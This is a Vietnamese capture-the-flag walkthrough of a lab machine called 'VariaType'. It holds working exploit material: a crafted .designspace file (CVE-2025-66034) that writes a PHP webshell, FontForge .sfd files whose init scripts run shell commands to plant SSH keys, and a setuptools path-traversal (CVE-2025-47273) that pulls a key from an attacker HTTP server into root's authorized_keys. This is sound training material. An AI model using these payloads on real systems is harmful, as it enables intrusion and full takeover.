# VariaType


Dùng `rustscan -a 10.129.112.134 -u 1000` quét các port có trên target:



Dùng ffuf để scan các subdomain và nhận được `portal.variatype.htb`



Nhận được 2 trang web như sau:



Ở trang web thứ nhất có sử dụng generate font bằng cách upload file `.designspace`


Search trên mạng thì liên quan tới [CVE-2025-66034](https://github.com/advisories/GHSA-768j-98cg-p3fv), CVE này cho phép attacker ghi đè file lên hệ thống, đối với php thì tạo webshell trên server



File setup.py dùng để chuẩn bị fonts:

```
#!/usr/bin/env python3
import os

from fontTools.fontBuilder import FontBuilder
from fontTools.pens.ttGlyphPen import TTGlyphPen

def create_source_font(filename, weight=400):
    fb = FontBuilder(unitsPerEm=1000, isTTF=True)
    fb.setupGlyphOrder([".notdef"])
    fb.setupCharacterMap({})
    
    pen = TTGlyphPen(None)
    pen.moveTo((0, 0))
    pen.lineTo((500, 0))
    pen.lineTo((500, 500))
    pen.lineTo((0, 500))
    pen.closePath()
    
    fb.setupGlyf({".notdef": pen.glyph()})
    fb.setupHorizontalMetrics({".notdef": (500, 0)})
    fb.setupHorizontalHeader(ascent=800, descent=-200)
    fb.setupOS2(usWeightClass=weight)
    fb.setupPost()
    fb.setupNameTable({"familyName": "Test", "styleName": f"Weight{weight}"})
    fb.save(filename)

if __name__ == '__main__':
    os.chdir(os.path.dirname(os.path.abspath(__file__)))
    create_source_font("source-light.ttf", weight=100)
    create_source_font("source-regular.ttf", weight=400)
```

File `malicious.designspace` ghi đè webshell vào đường dẫn `/var/www/portal.variatype.htb/public/files/shell.php`:

```
<?xml version='1.0' encoding='UTF-8'?>
<designspace format="5.0">
	<axes>
	    <axis tag="wght" name="Weight" minimum="100" maximum="900" default="400">
	        <labelname xml:lang="en"><![CDATA[<?php system($_GET['cmd']); ?>PWNED]]></labelname>
	    </axis>
	</axes>
	<sources>
		<source filename="source-light.ttf" name="Light">
			<location>
				<dimension name="Weight" xvalue="100"/>
			</location>
		</source>
		<source filename="source-regular.ttf" name="Regular">
			<location>
				<dimension name="Weight" xvalue="400"/>
			</location>
		</source>
	</sources>
	<variable-fonts>
		<variable-font name="Shell" filename="/var/www/portal.variatype.htb/public/files/shell.php">
			<axis-subsets><axis-subset name="Weight"/></axis-subsets>
		</variable-font>
	</variable-fonts>
</designspace>

```

Upload các file lên server:



Truy cập vào webshell trên portal `http://portal.variatype.htb/files/shell.php?cmd=ls+-la`:



Tạo reverse shell để dễ thao tác hơn, phát hiện file `/opt/process_client_submissions.bak`



```
#!/bin/bash
#
# Variatype Font Processing Pipeline
# Author: Steve Rodriguez <steve@variatype.htb>
# Only accepts filenames with letters, digits, dots, hyphens, and underscores.
#

set -euo pipefail

UPLOAD_DIR="/var/www/portal.variatype.htb/public/files"
PROCESSED_DIR="/home/steve/processed_fonts"
QUARANTINE_DIR="/home/steve/quarantine"
LOG_FILE="/home/steve/logs/font_pipeline.log"

mkdir -p "$PROCESSED_DIR" "$QUARANTINE_DIR" "$(dirname "$LOG_FILE")"

log() {
    echo "[$(date --iso-8601=seconds)] $*" >> "$LOG_FILE"
}

cd "$UPLOAD_DIR" || { log "ERROR: Failed to enter upload directory"; exit 1; }

shopt -s nullglob

EXTENSIONS=(
    "*.ttf" "*.otf" "*.woff" "*.woff2"
    "*.zip" "*.tar" "*.tar.gz"
    "*.sfd"
)

SAFE_NAME_REGEX='^[a-zA-Z0-9._-]+$'

found_any=0
for ext in "${EXTENSIONS[@]}"; do
    for file in $ext; do
        found_any=1
        [[ -f "$file" ]] || continue
        [[ -s "$file" ]] || { log "SKIP (empty): $file"; continue; }

        # Enforce strict naming policy
        if [[ ! "$file" =~ $SAFE_NAME_REGEX ]]; then
            log "QUARANTINE: Filename contains invalid characters: $file"
            mv "$file" "$QUARANTINE_DIR/" 2>/dev/null || true
            continue
        fi

        log "Processing submission: $file"

        if timeout 30 /usr/local/src/fontforge/build/bin/fontforge -lang=py -c "
import fontforge
import sys
try:
    font = fontforge.open('$file')
    family = getattr(font, 'familyname', 'Unknown')
    style = getattr(font, 'fontname', 'Default')
    print(f'INFO: Loaded {family} ({style})', file=sys.stderr)
    font.close()
except Exception as e:
    print(f'ERROR: Failed to process $file: {e}', file=sys.stderr)
    sys.exit(1)
"; then
            log "SUCCESS: Validated $file"
        else
            log "WARNING: FontForge reported issues with $file"
        fi

        mv "$file" "$PROCESSED_DIR/" 2>/dev/null || log "WARNING: Could not move $file"
    done
done

if [[ $found_any -eq 0 ]]; then
    log "No eligible submissions found."
fi
```

Chạy file `./pspy64` để xem các cron job, thấy file `/home/steve/bin/process_client_submissions.sh` được chạy đều đặn:



Dùng đoạn script dưới thử xem như nào:

```
import fontforge

f = fontforge.font()
f.fontname = "poc"
f.familyname = "poc"
f.fullname = "poc"
f.createChar(65, "A")

f.persistent = {
    "initScriptString": "import os; os.system('whoami > /tmp/poc.txt')"
}

f.save("/var/www/portal.variatype.htb/public/files/poc.sfd")
```

Chạy lệnh `/usr/local/src/fontforge/build/bin/fontforge -lang=py -script /tmp/steve_poc.py` để chạy script đó:



Tạo ssh key trên máy attacker `printf 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP1osxMyfmVC2jcG6Wj9MhbASz4ty/hQ6IiBECqEsPxH namdeptrai@arch\n' > authorized_keys` 



Sửa lại đoạn code 1 chút:

```
import fontforge

f = fontforge.font()
f.fontname = "ssh"
f.familyname = "ssh"
f.fullname = "ssh"
f.createChar(65, "A")

pub = "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP1osxMyfmVC2jcG6Wj9MhbASz4ty/hQ6IiBECqEsPxH namdeptrai@arch"

cmd = (
    "mkdir -p /home/steve/.ssh && "
    "echo \"%s\" >> /home/steve/.ssh/authorized_keys && "
    "chmod 700 /home/steve/.ssh && "
    "chmod 600 /home/steve/.ssh/authorized_keys"
) % pub

f.persistent = {
    "initScriptString": "import os; os.system(%r)" % cmd
}

f.save("/var/www/portal.variatype.htb/public/files/ssh.sfd")
```

Chạy script đó:



Sử dụng authorized_keys để ssh vào steve: 



Sử dụng `sudo -l` thì thấy file `/opt/font-tools/install_validator.py` có thể chạy dưới quyền root:

```
steve@variatype:~$ whoami 
steve
steve@variatype:~$ sudo -l
Matching Defaults entries for steve on variatype:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User steve may run the following commands on variatype:
    (root) NOPASSWD: /usr/bin/python3 /opt/font-tools/install_validator.py *
steve@variatype:~$ cat /opt/font-tools/install_validator.py
#!/usr/bin/env python3
"""
Font Validator Plugin Installer
--------------------------------
Allows typography operators to install validation plugins
developed by external designers. These plugins must be simple
Python modules containing a validate_font() function.

Example usage:
  sudo /opt/font-tools/install_validator.py https://designer.example.com/plugins/woff2-check.py
"""

import os
import sys
import re
import logging
from urllib.parse import urlparse
from setuptools.package_index import PackageIndex

# Configuration
PLUGIN_DIR = "/opt/font-tools/validators"
LOG_FILE = "/var/log/font-validator-install.log"

# Set up logging
os.makedirs(os.path.dirname(LOG_FILE), exist_ok=True)
logging.basicConfig(
    level=logging.INFO,
    format='%(asctime)s [%(levelname)s] %(message)s',
    handlers=[
        logging.FileHandler(LOG_FILE),
        logging.StreamHandler(sys.stdout)
    ]
)

def is_valid_url(url):
    try:
        result = urlparse(url)
        return all([result.scheme in ('http', 'https'), result.netloc])
    except Exception:
        return False

def install_validator_plugin(plugin_url):
    if not os.path.exists(PLUGIN_DIR):
        os.makedirs(PLUGIN_DIR, mode=0o755)

    logging.info(f"Attempting to install plugin from: {plugin_url}")

    index = PackageIndex()
    try:
        downloaded_path = index.download(plugin_url, PLUGIN_DIR)
        logging.info(f"Plugin installed at: {downloaded_path}")
        print("[+] Plugin installed successfully.")
    except Exception as e:
        logging.error(f"Failed to install plugin: {e}")
        print(f"[-] Error: {e}")
        sys.exit(1)

def main():
    if len(sys.argv) != 2:
        print("Usage: sudo /opt/font-tools/install_validator.py <PLUGIN_URL>")
        print("Example: sudo /opt/font-tools/install_validator.py https://internal.example.com/plugins/glyph-check.py")
        sys.exit(1)

    plugin_url = sys.argv[1]

    if not is_valid_url(plugin_url):
        print("[-] Invalid URL. Must start with http:// or https://")
        sys.exit(1)

    if plugin_url.count('/') > 10:
        print("[-] Suspiciously long URL. Aborting.")
        sys.exit(1)

    install_validator_plugin(plugin_url)

if __name__ == "__main__":
    if os.geteuid() != 0:
        print("[-] This script must be run as root (use sudo).")
        sys.exit(1)
    main()
steve@variatype:~$ python3 -c 'import setuptools; print(setuptools.__version__)'
78.1.0
steve@variatype:~$ 
```

Do thấy version của setuptools là 78.1.0 nên tìm được [CVE-2025-47273](https://github.com/advisories/GHSA-5rjg-fvgr-3xxf)



Tạo script python trả về `ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP1osxMyfmVC2jcG6Wj9MhbASz4ty/hQ6IiBECqEsPxH namdeptrai@arch\n` ghi gửi request:

```
from http.server import BaseHTTPRequestHandler, HTTPServer

KEY = b"ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP1osxMyfmVC2jcG6Wj9MhbASz4ty/hQ6IiBECqEsPxH namdeptrai@arch\n"

class H(BaseHTTPRequestHandler):
    def do_GET(self):
        self.send_response(200)
        self.send_header("Content-Type", "text/plain")
        self.send_header("Content-Length", str(len(KEY)))
        self.end_headers()
        self.wfile.write(KEY)

HTTPServer(("0.0.0.0", 1234), H).serve_forever()
```

Dùng lệnh `sudo /usr/bin/python3 /opt/font-tools/install_validator.py http://10.10.14.57:1234/%2froot%2f.ssh%2fauthorized_keys` để ghi đè lên ssh key ở root:



